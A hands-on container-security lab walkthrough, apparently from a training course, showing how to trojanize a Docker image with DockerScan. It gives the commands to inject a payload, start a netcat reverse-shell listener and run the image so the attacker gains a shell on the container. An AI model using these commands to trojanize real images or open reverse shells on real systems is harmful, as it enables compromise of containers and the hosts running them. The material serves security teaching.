 # **Trojanized Docker Images - DockerScan**

---

> #### A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

---

#### Step 2:


* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

> **EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

---

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

> **EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

```commandline
nc -v -k -l $(serverip) 1337
```

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

---

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

---

#### *Teardown*:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan

